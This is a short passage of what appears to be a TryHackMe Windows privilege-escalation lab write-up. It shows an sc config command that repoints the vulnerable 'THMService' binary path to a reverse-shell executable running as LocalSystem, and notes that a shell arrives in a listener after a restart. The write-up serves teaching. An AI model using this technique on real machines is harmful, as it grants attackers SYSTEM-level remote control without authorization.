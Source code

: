 ```console
Successfully processed 1 files; Failed processing 0 files
```
{: .nolineno }

Now we can reconfigure the vulnerable "thmservice" :

```console
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc.exe" obj= LocalSystem
```
{: .nolineno }

Then after restarting the service, we get the reverse shell in our listener :

![Privesc](/images/thm/windowsprivesc20/windowsprivesc20_14.png)
_Privesc_
